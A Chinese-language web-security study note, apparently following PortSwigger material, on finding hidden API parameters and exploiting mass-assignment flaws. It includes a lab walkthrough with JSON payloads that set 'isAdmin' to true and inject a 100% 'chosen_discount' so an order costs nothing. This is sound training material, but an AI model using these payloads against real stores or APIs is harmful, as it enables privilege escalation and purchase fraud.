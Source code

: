 ## 查找隐藏参数

在执行 API recon 时，您可能会发现 API 支持的未记录参数。您可以尝试使用这些来更改应用程序的行为。Burp 包含许多工具，可以帮助您识别隐藏的参数：

- Burp Intruder 使您能够自动发现隐藏的参数，使用常用参数名称的单词列表来替换现有参数或添加新参数。请确保根据初始侦察包含与应用程序相关的名称。
- [Param miner](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943) BApp 使您能够为每个请求自动猜测多达 65,536 个参数名称。Param miner 根据从范围获取的信息自动猜测与应用程序相关的名称。
- [使用内容发现](https://portswigger.net/burp/documentation/desktop/tools/engagement-tools/content-discovery)工具，您可以发现未从您可以浏览到的可见内容（包括参数）链接的内容。

### 批量分配漏洞（隐藏参数自动绑定）

批量分配漏洞（自动绑定）：框架自动将请求参数绑定到对象字段时，可能引入未文档化的隐藏参数（如`user[role]=admin`），导致攻击者绕过权限控制修改对象属性。

#### 识别隐藏参数

例如，该请求使用户能够更新其用户名和电子邮件，并包含以下 JSON：`PATCH /api/users/`

```
{
    "username": "wiener",
    "email": "wiener@example.com",
}
```

并发请求返回以下 JSON：`GET /api/users/123`

```
{
    "id": 123,
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": "false"
}
```

这可能表示隐藏的参数（`id` `isAdmin`）与更新的 username 和 email 参数一起绑定到内部用户对象。

#### 测试批量分配漏洞

测试枚举参数 `isAdmin` 可通过以下步骤：

1. 添加参数到 PATCH 请求：

   ```json
   {
     "username": "wiener",
     "email": "wiener@example.com",
     "isAdmin": false
   }
   ```

2. 发送无效值测试：

   ```json
   {
     "username": "wiener",
     "email": "wiener@example.com",
     "isAdmin": "foo" // 无效值
   }
   ```

   若响应差异明显，可能表明参数影响逻辑。

3. 尝试设置有效值：

   ```json
   {
     "username": "wiener",
     "email": "wiener@example.com",
     "isAdmin": true // 尝试提权
   }
   ```

   若请求成功且 wiener 账户获得管理员权限（如访问管理功能），则存在批量分配漏洞。

### 实验

当访问 cart 购物车页面，并点击提交订单：

```
# 触发 doCheckout 函数。
form class='login-form' onsubmit='doCheckout(event)'>
   <button class='button' type='submit'>Place order</button>
</form>
```

```js
// doCheckout 函数在 /resources/js/api/checkout.js 这个页面。
const doCheckout = (event) => {
    event.preventDefault();

    if (cachedOrder == null) {
        throw new Error("No cached order found!");
    }

    fetch(
        getApiEndpoint(),
        {
            method: 'POST',
            body: JSON.stringify(cachedOrder)
        }
    )
        .then(res => res.headers.get("Location"))
        .then(loc => window.location = loc);
};

window.onload = () => {
    doLoadCart();
}
```

```
# doCheckout 函数会调用 getApiEndpoint 函数，是获取请求路径用的。
const getApiEndpoint = () => '/api/checkout';

# 另外，doCheckout 函数还会将 cachedOrder 作为请求体发送 post 请求，为了了解 cachedOrder 是怎样形成的，我们需要分析 /resources/js/api/checkout.js 这里的代码。
```

1. 初始化：var cachedOrder = null; 

2. 触发加载：window.onload → doLoadCart()

```js
const doLoadCart = () => {
    fetch(
        getApiEndpoint(),
        {
            method: 'GET'
        }
    )
        .then(res => res.json())
        .then(order => { 
            cachedOrder = getProductIdsAndQuantitiesFromOrder(order); 
            loadOrder(order); 
        });
}
```

3. doLoadCart 发送 get 请求获取 json 数据。
4. 获取后处理数据填入 cachedOrder 变量。

综上所述，cachedOrder 是 js 脚本加载时，发送了一个 get /api/checkout 的请求包，服务器收到后将用户购物车信息作为响应填充到 cachedOrder 变量。

如下是返回的 json 数据。

![image-20250511162832691](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511162832691.png)

然后 doCheckout 发送 POST 请求发起订单，发现与之前获取的数据相比，少了 chosen_discount 这一参数。

![image-20250511163034782](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511163034782.png)

##### 漏洞

POST 用于提交订单，那么订单信息是否存在隐藏参数使得订单为 0 呢。发送如下 payload：

```
{
"chosen_discount":{
        "percentage":"x"
},
"chosen_products":[{"product_id":"1","quantity":1}]}
```

![image-20250511164016947](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511164016947.png)

发现我们新添加的 chosen_discount 被解析，将其修改为 100 。发现订单打了 0 折。


